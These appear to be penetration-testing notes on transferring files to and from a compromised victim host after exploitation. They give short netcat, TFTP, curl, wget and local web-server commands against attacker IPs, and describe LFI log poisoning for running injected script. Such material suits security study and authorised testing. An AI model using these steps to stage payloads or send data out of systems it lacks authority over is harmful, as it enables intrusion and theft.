


# 6. File Transfer

Link : [https://burmat.gitbook.io/security/hacking/one-liners-and-dirty-scripts\#file-transfers](https://burmat.gitbook.io/security/hacking/one-liners-and-dirty-scripts#file-transfers)

Link : [https://www.hackingarticles.in/compressive-guide-on-file-transfer-post-exploitation/](https://www.hackingarticles.in/compressive-guide-on-file-transfer-post-exploitation/)

## Methods of file transfer

* **Non-interactive Shells.**
  * once it is executed, it does not require more input from the user in order to complete.
  * Once the command is executed, the shell automatically ends the connection.
* **Interactive Shells.**
  * remember how we used to interact SMTP server using command line.
    * we had to specify subject, email address, body, etc for mail.
    * Once we have sent the mail successfully we type "bye" to exit the SMTP connection.
  * Hence, to close the connection here we have to give a keyword which tells the server to terminate the connection.
* **Using Scripting languages.**
  * \(script\) like using VBscripts, a simple HTTP downloader using VBScript. On the server end we just need to serve file on our web server.
  * \(script\) like using Powershell, a simple HTTP downloader using powershell.
  * \(executable\) like using debug.exe to create a code a simple downloader. Compiling the code using debug.exe. Then running this executable to download the file to victim system.
* **Using logs method.**
  * Remember how all services running in victim system has a log file which tells us the timeline and the different activities that service has performed.
  * Similarly, if we have port open for that service, so the attacker could query the port. Similarly lets say the attacker queried port 80.
  * Then he needs to send some text which the server understands to get a valid response. 
  * But if user sends malicious code script. As it is an invalid request the script will not be executed, but still the complete script message is present in web server log files.
  * So if the website is vulnerable to LFI vulnerability, we could give path of web-server log files in this, and in this way our malicious code will be executed.


## List of different ways for transferring a file

1. File Transfer protocols
   1. FTP
   2. SFTP
   3. TFTP
   4. SCP
2. Using HTTP Protocol
3. Using file download method
   1. BITSAdmin \(windows, client only\)
   2. PowerShell \(windows, client only\)
   3. VBS HTTP
   4. Perl HTTP
   5. CERTUTIL
   6. base64
   7. curl \(client only\)
   8. wget \(client only\)
4. Tools
   1. HFS tool - file transfer across different platforms.
   2. Using Meterpreter
5. Using PHP file server

## Using FTP

### FTP server side

*  We first need to create a FTP server on our attacking machine.
* Then we need to copy the respective file to be sent to the victim system on the root folder of the ftp server.
* We then need to create a user using which we will transfer the files.

### FTP Client side

*  There are two method to use ftp client to download files, first is the default interactive shell. Another is we try to make this interactive shell non interactive by creating a text file with all the inputs written in it. The ftp client could then use the file directly instead of interactive inputs from user.

## Using TFTP



```text
mkdir /tftp
atftpd --daemon --port 69 /tftp
```



```text
tftp -i 192.168.1.1 get file.txt #where 192.168.1.1 is the IP address of the TFTP server
```



## Using Netcat

It is a simple netcat file transfer command



```text
nc 172.18.39.103 5000 < file.txt
```



```text
nc -lvp 5000
```



## Using file Download method

To transfer file using Download method, first we need to **set up a web server**.



```text
python -m SimpleHTTPServer 8000
```



```text
service apache2 start
cp file.txt /var/www/html/
```



### Using curl



```text
curl -O http://172.18.39.103/file.txt
```



### Using wget



```text
wget http://172.18.39.103/file.txt
```



## Using PHP file server



```text
php -S 0.0.0.0:80
```



> You could use any file download method to download file.







